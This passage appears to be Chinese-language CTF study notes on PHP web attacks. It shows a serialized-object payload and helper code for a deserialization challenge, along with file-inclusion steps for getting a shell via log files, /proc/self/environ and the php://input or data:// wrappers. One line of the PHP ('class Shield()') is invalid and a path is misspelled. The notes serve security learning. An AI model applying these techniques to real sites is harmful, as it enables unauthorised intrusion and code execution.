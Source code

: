 ```php
#?class=O:6:"Shield":1:{s:4:"file";s:8:"pctf.php";}
<!-- answer.php -->
<?php

require_once('shield.php');
$x = class Shield();
$g = serialize($x);
echo $g;

?>

<!-- shield.php -->
<?php
    //flag is in pctf.php
    class Shield {
        public $file;
        function __construct($filename = 'pctf.php') {
            $this -> file = $filename;
        }
        
        function readfile() {
            if (!empty($this->file) && stripos($this->file,'..')===FALSE  
            && stripos($this->file,'/')===FALSE && stripos($this->file,'\\')==FALSE) {
                return @file_get_contents($this->file);
            }
        }
    }
?>
```

## 文件包含

原理：

include()/include_once()，require()/require_once()，中的变量可控

利用过程：
```
上传图片（含有php代码的图片） 
读文件，读php文件 
包含日志文件getshell 
包含/proc/self/envion文件getshell 
如果有phpinfo可以包含临时文件 
包含data://或php://input等伪协议（需要allow_url_include=On)
```

封闭协议：
```
file:// — 访问本地文件系统
http:// — 访问 HTTP(s) 网址
ftp:// — 访问 FTP(s) URLs
php:// — 访问各个输入/输出流（I/O streams）
zlib:// — 压缩流
data:// — 数据（RFC 2397）
glob:// — 查找匹配的文件路径模式
phar:// — PHP 归档
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — 音频流
expect:// — 处理交互式的流
```
